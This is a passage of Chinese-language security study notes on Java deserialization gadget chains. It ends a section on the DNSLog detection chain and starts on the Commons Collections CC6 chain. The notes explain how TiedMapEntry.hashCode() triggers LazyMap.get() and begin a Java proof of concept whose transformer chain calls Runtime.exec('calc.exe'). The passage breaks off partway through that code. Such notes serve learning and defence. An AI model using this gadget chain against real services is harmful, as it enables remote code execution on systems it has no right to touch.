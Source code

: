 6. 结果如下：
    ![image-20230411222559298](image-20230411222559298.png)

### 5.5 作用

1. 这个链的作用就是用来探测注入点是否存在反序列化漏洞。

## 6. 最好用的链 - CC6 - 不受 JDK 版本限制的类

### 6.1 漏洞原理

1. 在 [5.2](# 5.2 `HashMap<>.readObject()` 详解) DNSLog 链中，提到了 `HashMap#readObject()` 的利用方法。CC6 链同样也用到了，而且思路和 DNSLog 相似。其目标在于：“找到一个类，其 `hashCode()` 调用了 `LazyMap.get()`，这样就能和 CC1 的后半部分相同”。（可以理解成 DNSLog 和 CC1 的结合）
2. 使用到的类是 CC 中的 `TiedMapEntry` 这个类：
    ![image-20230517101800107](image-20230517101800107.png)
    它的 `getValue()` 为：
    ![image-20230517101822905](image-20230517101822905.png)
3. 因此，给它的 map 赋值，然后调用其 `hashCode()`，即可触发。

### 6.2 POC 编写

1. 具体细节见：

    > https://www.freebuf.com/articles/web/320466.html

    注意其中有些注意点。

2. Payload：
    ```java
    @Test
    public void testCC6() throws NoSuchFieldException, IllegalAccessException {
        // 1. 构造链
        Transformer[] transformers = new Transformer[]{
            new ConstantTransformer<>(Runtime.class),
            new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
            new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
    
        // 2. 构造 LazyMap，先不传链的后半部分，让链断开，这样 put 时不会触发链
        HashMap<Object, Object> hashMap = new HashMap<>();
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(hashMap, new ChainedTransformer());
    
        // 3. 创建一个 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("aaa")，由于 LazyMap 中没有键为 aaa，所以会向里面塞一个 aaa，从而导致反序列化时无法执行
        TiedMapEntry lazyMapIntegerTiedMapEntry = new TiedMapEntry<>(lazyMap, "aaa");
    
        // 4. 创建一个用于被序列化的 HashMap
        HashMap toBeSerializedHashMap = new HashMap<>();
    